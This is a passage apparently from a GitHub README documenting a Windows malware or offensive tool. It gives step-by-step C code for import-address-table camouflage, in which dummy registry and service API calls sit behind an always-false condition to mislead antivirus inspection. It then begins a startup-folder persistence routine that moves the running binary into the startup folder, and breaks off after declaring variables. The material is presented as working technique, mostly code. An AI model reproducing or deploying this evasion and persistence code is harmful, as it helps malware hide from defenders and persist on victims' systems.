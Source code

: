 1. **Allocate Memory**:
- Allocates 256 bytes (`0x100`) of zero-initialized memory from the process heap.
- If the allocation fails, the function returns immediately.
```C
ULONG_PTR uAddress = NULL;
if (!(uAddress = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, 0x100))) {
	return;
}
```

2. **Perform a Check on the Allocated Address**:
- Shifts the allocated address right by 8 bits and masks it with `0xFF`.
- If the result is greater than `0xFFFF`, it calls various registry-related functions with `NULL` parameters. This is done to obfuscate the IAT by adding these function calls to the import table.
```C
if (((uAddress >> 8) & 0xFF) > 0xFFFF) {
	RegCloseKey(NULL);
	RegDeleteKeyExA(NULL, NULL, NULL, NULL);
	RegDeleteKeyExW(NULL, NULL, NULL, NULL);
	RegEnumKeyExA(NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL);
	RegEnumKeyExW(NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL);
	RegEnumValueW(NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL);
	RegEnumValueA(NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL);
	RegGetValueA(NULL, NULL, NULL, NULL, NULL, NULL, NULL);
	RegGetValueW(NULL, NULL, NULL, NULL, NULL, NULL, NULL);
	RegisterServiceCtrlHandlerA(NULL, NULL);
	RegisterServiceCtrlHandlerW(NULL, NULL);
}
```

3. **Free the Allocated Memory**:
- Frees the allocated memory.
- If the memory cannot be freed, the function returns immediately.
```C
if (!HeapFree(GetProcessHeap(), 0x00, uAddress)) {
	return;
}
```

## Persistence Using Startup Folder
--------

The `MoveToStartup` function moves the current running binary to the startup folder to ensure it runs on system startup. Here is a detailed explanation of how the function works:

![image](https://github.com/user-attachments/assets/50f30307-9d2a-4ad6-870f-36201c8ea97c)

### Detailed Steps

1. **Initialize Variables**:
- Initializes variables to store the paths of the startup folder, the current binary location, and the new path in the startup folder.
```C
    wchar_t szStartupPath[MAX_PATH];
    wchar_t szCurrentPath[MAX_PATH];
    wchar_t szNewPath[MAX_PATH];
```
